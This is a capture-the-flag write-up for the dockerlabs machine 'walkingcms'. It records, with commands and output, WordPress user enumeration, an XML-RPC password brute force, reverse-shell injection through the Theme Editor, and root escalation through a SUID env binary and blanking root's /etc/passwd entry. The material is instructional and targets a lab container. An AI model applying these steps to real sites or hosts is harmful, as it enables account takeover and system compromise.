



# walkingcms

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| walkingcms | El Pingüino de Mario | Easy | dockerlabs |

**Summary:** The walkingcms machine exposed a single HTTP service on port 80 running Apache 2.4.57. A gobuster directory scan uncovered a WordPress installation at `/wordpress/`. WPScan's passive user enumeration identified a single registered author, `mario`, and a subsequent XML-RPC password attack against the full `rockyou.txt` wordlist recovered the credential `mario:love` in under seventeen seconds. Authenticated to the WordPress admin panel, the built-in Theme Editor was abused to inject a PHP reverse shell payload directly into the active theme's `functions.php` file. A `curl` request to the WordPress root triggered the payload, delivering a `www-data` shell. With `sudo` absent from the system and Python 3 unavailable for PTY spawning, the shell was stabilised using the `script` utility. Post-compromise enumeration of SUID binaries revealed an unusual entry: `/usr/bin/env` carrying the SUID bit set to root. This is a well-documented GTFOBins vector: invoking `env /bin/bash -p` causes bash to start in privileged mode, honouring the elevated effective UID inherited from the SUID `env` binary rather than dropping it to match the real UID of `www-data`. The result was a shell with `euid=0(root)` while retaining `uid=33(www-data)`. To convert this partial privilege into a clean root session, `sed` was used to surgically strip the password hash from root's `/etc/passwd` entry, leaving the field blank and enabling a passwordless `su - root`, which yielded a fully interactive root shell.

---

## Reconnaissance

The machine was deployed via the dockerlabs automation script and assigned the IP address `172.17.0.2`.

**1.** Deploy the target container and record its address:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/walkingcms]
└─$ sudo bash auto_deploy.sh walkingcms.tar

Estamos desplegando la máquina vulnerable, espere un momento.
4fbb71023d39a2950742afe689326d08ebc7320ed0e4299ed9c596eaf8a51dda

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2.** Set shell variables and launch a full-port versioned Nmap scan:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 15:48 WIB
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.42 seconds
```

A single open port was identified: **TCP 80** running Apache 2.4.57 on Debian, presenting the default "It works" placeholder page. With the entire attack surface confined to a single web service, the focus immediately shifted to directory enumeration.

---

## Directory Enumeration and WordPress Discovery

**3.** Run gobuster against the web root to identify non-default paths:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

The only actionable discovery was `/wordpress`, which returned an HTTP 301 redirect to `/wordpress/`. All other paths were either the default Apache index or server-protected resources returning 403. A full WordPress installation was running behind the default server page, completely invisible to a casual visitor.

---

## WordPress Enumeration with WPScan

**4.** Run WPScan against the WordPress installation with user enumeration enabled:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ wpscan --url $url/wordpress/ -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]
[+] Started: Wed Mar 11 15:55:07 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.57 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.17.0.2/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.17.0.2/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://172.17.0.2/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.17.0.2/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.3 identified (Latest, released on 2026-03-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://172.17.0.2/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.9.3</generator>
 |  - http://172.17.0.2/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.9.3</generator>

[+] WordPress theme in use: twentytwentytwo
 | Location: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.6
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.6, Match: 'Version: 1.6'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Mar 11 15:55:07 2026
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 14.193 KB
[+] Data Received: 332.459 KB
[+] Memory used: 189.719 MB
[+] Elapsed time: 00:00:03
```

WPScan's scan completed in three seconds and surfaced several noteworthy findings. XML-RPC was enabled, which is significant as it supports multicall authentication attacks far faster than standard login form brute force. The upload directory had directory listing enabled, and the active theme was Twenty Twenty-Two version 1.6. Most critically, user enumeration confirmed a single registered author: **`mario`**, identified through the RSS generator, the WordPress JSON API, and author ID brute-forcing.

---

## WordPress Password Brute Force via XML-RPC

**5.** Run WPScan's password attack against the `mario` account via XML-RPC using `rockyou.txt`:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ wpscan --url $url/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]
[+] Started: Wed Mar 11 15:57:12 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.57 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.17.0.2/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.17.0.2/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://172.17.0.2/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.17.0.2/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.3 identified (Latest, released on 2026-03-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://172.17.0.2/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.9.3</generator>
 |  - http://172.17.0.2/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.9.3</generator>

[+] WordPress theme in use: twentytwentytwo
 | Location: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.6
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.6, Match: 'Version: 1.6'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===========> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love
Trying mario / love Time: 00:00:05 <              > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Mar 11 15:57:29 2026
[+] Requests Done: 532
[+] Cached Requests: 35
[+] Data Sent: 248.025 KB
[+] Data Received: 265.202 KB
[+] Memory used: 270.426 MB
[+] Elapsed time: 00:00:16
```

The attack completed in **sixteen seconds**, trying only 390 passwords before finding the match. The XML-RPC multicall mechanism allowed WPScan to batch multiple credential attempts into single HTTP requests, making the attack significantly faster than a login form brute force would allow. The recovered credentials were: username `mario`, password `love`.

---

## WordPress Admin Access and Theme Editor Code Injection

**6.** Navigate to the WordPress login page at `http://172.17.0.2/wordpress/wp-login.php` and authenticate with the recovered credentials:



The WordPress admin dashboard was accessible. The update notification prompt was dismissed to proceed directly to the Theme Editor. WordPress's built-in Theme Editor, accessible under Appearance, allows authenticated administrators to directly modify the PHP source files of installed themes. The active theme's `functions.php` file was selected as the injection target because it is loaded on every WordPress page request, making payload execution trivial to trigger.

**7.** Navigate to the Theme Editor, open `functions.php` for the active theme, and inject a PHP reverse shell payload:



A PHP reverse shell was appended to `functions.php`, configured to connect back to the attacker's IP on port 4444. Once saved, any HTTP request to the WordPress site would cause the web server to execute the injected code.

---

## Reverse Shell Delivery and TTY Stabilisation

**8.** Start a netcat listener on port 4444 to receive the reverse shell callback:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**9.** Trigger the injected payload by sending an HTTP GET request to the WordPress root:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ curl $url/wordpress/
```

**10.** Receive the shell, attempt Python PTY spawning, fall back to `script`, and stabilise the terminal:

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 35690
bash: cannot set terminal process group (242): Inappropriate ioctl for device
bash: no job control in this shell
www-data@08d58d8e667e:/var/www/html/wordpress$ cd /
cd /
www-data@08d58d8e667e:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash: python3: command not found
www-data@08d58d8e667e:/$ which script
which script
/usr/bin/script
www-data@08d58d8e667e:/$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
www-data@08d58d8e667e:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/walingcms]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@08d58d8e667e:/$ export SHELL=/bin/bash
www-data@08d58d8e667e:/$ export TERM=xterm-256color
www-data@08d58d8e667e:/$ stty rows 74 cols 137
```

The shell connected as `www-data` from the target container. Python 3 was not available on this system, so the standard `pty.spawn` approach failed. The fallback was `/usr/bin/script -qc /bin/bash /dev/null`, which forked an interactive bash PTY. The shell was then backgrounded with `Ctrl+Z`, the attacker's terminal was placed into raw mode with `stty raw -echo`, and the job was resumed with `fg`. The `SHELL`, `TERM`, and `stty` dimensions were all configured to complete the stabilisation.

---

## Post-Exploitation Enumeration and SUID Discovery

**11.** Enumerate the system's user accounts and check for the presence of `sudo`:

```bash
www-data@08d58d8e667e:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
www-data@08d58d8e667e:/$ which sudo
```

Only `root` had a login shell. The `which sudo` command returned nothing at all: `sudo` was not installed on this system, eliminating the most common privilege escalation pathway. Attention shifted to SUID binaries.

**12.** Search the entire filesystem for SUID-set executables:

```bash
www-data@08d58d8e667e:/$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 35128 Mar 23  2023 /usr/bin/umount
-rwsr-xr-x 1 root root 72000 Mar 23  2023 /usr/bin/su
-rwsr-xr-x 1 root root 59704 Mar 23  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
```

Most entries in this list were expected: `chsh`, `umount`, `su`, `mount`, `newgrp`, `gpasswd`, `passwd`, and `chfn` all commonly carry the SUID bit. The anomaly was `/usr/bin/env`. The `env` utility has no legitimate reason to be SUID root: it is a standard program for running commands with a modified environment, and its SUID bit creates a direct path to privilege escalation through GTFOBins.

**13.** Consult GTFOBins to confirm the `env` SUID exploitation technique:



The GTFOBins entry for `env` with the SUID bit confirmed the technique: invoking `/usr/bin/env /bin/bash -p` causes bash to start in privileged mode (`-p`), which prevents bash from dropping the effective UID to match the real UID. Since `env` was SUID root, the effective UID inherited by the resulting process was `0`.

---

## Privilege Escalation via SUID `env` and Passwd Manipulation

**14.** Exploit the SUID `env` binary to obtain an elevated effective UID:

```bash
www-data@08d58d8e667e:/$ /usr/bin/env /bin/bash -p
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

The `id` output confirmed `euid=0(root)`: a shell running with root's effective UID while still carrying `uid=33(www-data)` as the real UID. This effective root access was sufficient to write to any file on the system, including `/etc/passwd`. To convert this into a clean, stable root session, the password field of root's `/etc/passwd` entry was removed.

**15.** Use `sed` to strip root's password hash from `/etc/passwd`, then switch to root with no password:

```bash
bash-5.2# sed -i 's/^root:x:/root::/' /etc/passwd
bash-5.2# su - root
root@08d58d8e667e:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
08d58d8e667e
root@08d58d8e667e:~# pwd
/root
root@08d58d8e667e:~# ls -la
total 20
drwx------ 1 root root 4096 Mar 20  2024 .
drwxr-xr-x 1 root root 4096 Mar 11 09:11 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw------- 1 root root  302 Mar 20  2024 .mysql_history
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

The `sed` command replaced the `root:x:` prefix in `/etc/passwd` with `root::`, removing the `x` placeholder that signals the password hash is stored in `/etc/shadow`. With the field blank, `su - root` accepted no password, and a full `uid=0(root)` shell was obtained on container `08d58d8e667e`. The presence of `.mysql_history` in root's home directory indicated prior database activity on the machine, but no further post-exploitation was necessary.

---

## Attack Chain Summary

1. **Reconnaissance**: A full TCP port scan found a single open service: Apache 2.4.57 on port 80 serving a default Debian placeholder page. A gobuster directory scan revealed a WordPress installation running at `/wordpress/`, completely hidden behind the default root page.

2. **Vulnerability Discovery**: WPScan enumerated the WordPress installation and identified a single registered user, `mario`, through the RSS generator and the WordPress JSON API. XML-RPC was confirmed as enabled, providing a high-speed brute-force channel that bypasses the standard login form's rate limiting.

3. **Exploitation**: WPScan's XML-RPC password attack recovered the credential `mario:love` from `rockyou.txt` in sixteen seconds. Using these credentials, the WordPress admin dashboard was accessed and the built-in Theme Editor was used to inject a PHP reverse shell into the active theme's `functions.php`. A `curl` request to the WordPress root triggered the payload, delivering a reverse shell as `www-data`. Python 3 was unavailable, so the shell was stabilised using `script` and `stty raw -echo`.

4. **Internal Enumeration**: Post-compromise enumeration confirmed that `sudo` was not installed and that only `root` held a login shell. A `find` command searching for SUID binaries surfaced an anomalous entry: `/usr/bin/env` with the SUID bit set to root, a well-documented GTFOBins privilege escalation vector.

5. **Privilege Escalation**: The SUID `env` binary was leveraged by invoking `/usr/bin/env /bin/bash -p`, which started bash in privileged mode and yielded `euid=0(root)`. With effective root write access, `sed` was used to remove root's password hash from `/etc/passwd`, making the root account passwordless. A final `su - root` produced a clean, fully interactive root shell on container `08d58d8e667e`.
